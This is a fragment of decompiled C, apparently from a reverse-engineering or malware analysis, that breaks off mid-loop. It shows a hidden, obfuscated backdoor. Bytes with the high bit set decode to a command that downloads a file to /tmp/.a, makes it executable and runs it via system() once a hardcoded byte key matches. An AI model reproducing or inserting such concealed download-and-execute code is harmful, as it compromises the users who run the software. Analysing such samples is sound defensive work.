 ```c
  auStack280._64_4_ = 0xb6b0e1b1;
  auStack280._68_4_ = 0xb3b2e5b4;
  auStack280._72_4_ = 0xb2e4b2b6;
  auStack280._76_4_ = 0xb7b0b3e3;
  auStack280._80_4_ = 0xb2b9b1b0;
  auStack280._84_4_ = 0xe1b9b0b8;
  auStack280._88_4_ = 0xb0b7b1b3;
  auStack280._92_4_ = 0xe4b5b5b7;
  auStack280._96_4_ = 0xb8b3e6b1;
  auStack280._100_4_ = 0xb5b2b9b5;
  auStack280._104_4_ = 0xb8b1b8e4;
  auStack280._108_4_ = 0xb2e5e5b5;
  auStack280._112_4_ = 0xe5e1b8e6;
  auStack280._116_4_ = 0xe4b3e4b9;
  auStack280._120_4_ = 0xb8e2e1b9;
  auStack280._124_4_ = 0xb2b7b1e3;
  auStack280._128_4_ = 0xb2b3b9e5;
  auStack280._132_4_ = 0xe5e1e1b4;
  auStack280._136_4_ = 0xb8b9e4b6;
  auStack280._140_4_ = 0xe5afb7b0;
  auStack280._144_4_ = 0xb6b7b6e6;
  auStack280._148_4_ = 0xadb0e4e2;
  auStack280._152_4_ = 0xb1b2b3e4;
  auStack280._156_4_ = 0xe1b0b4ad;
  auStack280._160_4_ = 0xb7e2ade5;
  auStack280._164_4_ = 0xe6adb5e5;
  auStack280._168_4_ = 0xb8b8e1b5;
  auStack280._172_4_ = 0xe1b2e4e4;
  sVar2 = *(size_t *)(this + 0x3c8);
  auStack280._224_2_ = 0x80e1;
  auStack280._176_4_ = 0xafe2b7b7;
  auStack280._180_4_ = 0xa0f7e1f2;
  auStack280._184_4_ = 0xafa0efad;
  auStack280._188_4_ = 0xaff0edf4;
  auStack280._192_4_ = 0xa6a0e1ae;
  auStack280._196_4_ = 0xe8e3a0a6;
  auStack280._200_4_ = 0xa0e4efed;
  auStack280._204_4_ = 0xafa0f8ab;
  auStack280._208_4_ = 0xaff0edf4;
  auStack280._212_4_ = 0xa6a0e1ae;
  auStack280._216_4_ = 0xf4afa0a6;
  auStack280._220_4_ = 0xaeaff0ed;
  __dest = malloc(sVar2);
  __src = *(void **)(this + 0x3c0);
  pvVar2 = (byte *)memcpy(__dest,__src,sVar2);
  if (((((pvVar2[0x3c0] == 0xf1) && (pvVar2[0x3c1] == 0xf8)) && (pvVar2[0x3c2] == 0xf1)) &&
      ((((pvVar2[0x3c3] == 0xf5 && (pvVar2[0x3c4] == 0xf2)) &&
        ((pvVar2[0x3c5] == 0xf8 && ((pvVar2[0x3c6] == 0xf1 && (pvVar2[0x3c7] == 0xf1)))))) &&
       (pvVar2[0x3c8] == 0xf1)))) &&
     ((((pvVar2[0x3c9] == 0xf3 && (pvVar2[0x3ca] == 0xf1)) && (pvVar2[0x3cb] == 0xff)) &&
      ((pvVar2[0x3cc] == 0xf1 && (pvVar2[0x3cd] == 0xfe)))))) {
    uVar3 = 0;
    while( true ) {
      sVar2 = strlen(uStack328);
      if (sVar2 <= uVar3) break;
      uStack328[uVar3] = uStack328[uVar3] & 0x7f;
      uVar3 += 1;
    }
    uVar3 = 0;
    system(uStack328);
    while( true ) {
      sVar2 = strlen(auStack280);
      if (sVar2 <= uVar3) break;
```